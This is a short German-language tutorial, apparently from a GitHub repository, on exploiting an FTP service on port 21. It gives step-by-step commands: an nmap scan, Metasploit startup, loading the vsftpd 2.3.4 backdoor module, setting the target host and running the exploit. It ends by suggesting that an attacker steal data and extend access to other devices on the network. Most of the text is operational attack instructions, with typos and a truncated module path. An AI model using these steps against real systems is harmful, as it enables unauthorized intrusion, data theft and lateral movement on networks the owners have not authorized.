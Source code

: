 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start <br> service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="600" height="250">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Danach kontrolieren mit: show options
  
 Danah kann an einfah den Comand "exploit" absetzen
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

